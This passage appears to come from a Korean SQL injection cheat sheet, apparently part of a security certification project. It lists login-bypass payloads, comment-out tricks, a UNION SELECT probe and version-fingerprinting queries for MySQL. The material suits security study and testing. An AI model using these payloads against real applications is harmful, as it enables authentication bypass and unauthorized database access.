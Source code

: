 
예 :<br>
`SELECT * FROM Users WHERE id = 3-2;`<br><br>

노트 :<br>
참은 1 과 같음.<br>
거짓은 0 과 같음.<br><br>

**③ 로그인**<br><br>

주어진 쿼리 `SELECT * FROM Table WHERE username = '';`<br><br>

`' OR '1`<br>
`' OR 1 -- -`<br>
`" OR "" = "`<br>
`" OR 1 = 1 -- -`<br>
`'='`<br>
`'LIKE'`<br>
`'=0--+`<br><br>

예 :<br>
`SELECT * FROM Users WHERE username = 'Mike' AND password = '' OR '' = '';`<br><br><br>



## (3) 코멘트 아웃 쿼리(Comment Out Query)

여기서 코멘트 아웃(Comment Out)이란 디버그에서 자주 사용되는 방법으로 코멘트를 지시하는 문을 삽입하여 프로그램이나 명령어 집합의 일부를 일시적으로 사용하지 않는 것을 말함.

![스크린샷 2024-04-17 오후 2 05 54](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/930f2e11-de95-4438-b734-4ca289aac282)<br><br>


예 :<br>
`SELECT * FROM Users WHERE username = '' OR 1=1 -- -' AND password = '';`<br>
`SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3`';`<br><br>

노트 :<br>
별칭으로 사용할 때 Backtick 연산자(`)는 쿼리를 종료할 때만 사용할 수 있음.<br><br><br>



## (4) 버전 테스팅

**① 변수**<br><br>

`VERSION()`<br>
`@@VERSION`<br>
`@@GLOBAL.VERSION`<br><br>

예 :<br>
`SELECT * FROM Users WHERE id = '1' AND MID(VERSION(),1,1) = '5';`<br><br>

노트 :<br>
DBMS 가 윈도우 기반 시스템에서 실행되는 경우 결과값에는 -nt-log 가 포함됨.<br>
@@GLOBAL 는 글로벌 변수를 의미하며 글로벌 변수 지정은 슈퍼 권한이 있어야 함.<br><br>

**② 특정 코드**<br><br>
